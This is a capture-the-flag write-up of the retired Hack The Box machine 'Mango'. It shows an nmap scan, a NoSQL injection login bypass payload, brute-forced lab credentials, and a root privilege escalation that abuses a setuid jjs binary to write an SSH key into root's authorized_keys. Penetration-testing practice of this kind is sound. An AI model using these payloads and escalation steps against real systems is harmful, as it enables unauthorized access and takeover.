

# Mango

This is the write-up for the box Mango that got retired at the 18th April 2020.
My IP address was 10.10.14.27 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.162    mango.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/mango.nmap 10.10.10.162
```

```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The hostname _staging-order.mango.htb_ should be put into the _/etc/hosts_ file.

## Checking HTTP & HTTPS (Port 80 & 443)

The web page on port 80 responds with the HTTP status code _403 Forbidden_.

The web page on port 443 shows a page that looks like the **Google search engine**:


The button _Analytics_ on the top right forwards to _/analytics.php_ which looks similar to Google Sheets.
On the hostname _staging-order.mango.htb_ on **HTTP** is a login form to an unknown application:



After testing different kinds of SQL Injection methods on all input fields, the box name _mango_ and the mango background on the login page seems to be a hint, that it could be a **NoSQL MongoDB** database in the backend.

Testing **NoSQL Injection** on the login form:
```
POST / HTTP/1.1
Host: staging-order.mango.htb
(...)

username[$ne]=test&password[$ne]=test1234&login=login
```

The data compares if the username and the password does not equal to the values and after sending the request, it forwards to the page _/home.php_.
This page says _"Under Plantation"_ and does not have any information, but it confirms that a **MongoDB** has to be exploited.

### SQL Injection on MongoDB

Databases on **MongoDB** allow **Regular Expressions** and to get information out of the database, we can enumerate information with scripts.
I created one script to brute-force usernames and another one for brute-forcing their passwords and they can be found in this repository.

Brute-Forcing usernames:
```
python3 mango_sqli-user.py
```

There is one user called _admin_ and the other user can be found by iterating the first letter through the alphabet until it will be at the letter _"m"_ and then it will find the user _mango_.

Brute-Forcing passwords:
```
python3 mango_sqli-pass.py
```

Credentials of _admin_:
> admin:t9KcS3>!0B#2

Credentials of _mango_:
> mango:h3mXK8RhU~f{]f5H

Both credentials work on the web page and forward to _home.php_, but the user _mango_ can also access the box with SSH.

## Privilege Escalation

It is possible to switch user to _admin_ with the found password:
```
su - admin
```

When searching for files with the **Setuid bit** set, there is one that does not have this permission by default:
```
find / -type f -perm -4000 2>/dev/null
```
```
/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```

On [GTFOBins](https://gtfobins.github.io/gtfobins/jjs/) it shows that the binary `jjs` can be abused for different privilege escalation methods.
With the _"File write"_, it is possible to write our own SSH key into the _authorized keys_ of root and login:

Creating SSH keys:
```
ssh-keygen
```

Creating bash script on the box to abuse `jss` and write content of our created public key into _/root/.ssh/authorized_keys_:
```
echo 'var FileWriter = Java.type("java.io.FileWriter");
var fw=new FileWriter("/root/.ssh/authorized_keys");
fw.write("ssh-rsa AAAAB3NzaC1yc2EAAAAD(...)");
fw.close();' | jjs
```

Executing bash script:
```
chmod +x jss_write.sh

./jss_write.sh
```

If the file was modified correctly will be found out by trying to login into the box as root:
```
ssh -i mango_id_rsa root@10.10.10.162
```

It works and logs us into the box as root!
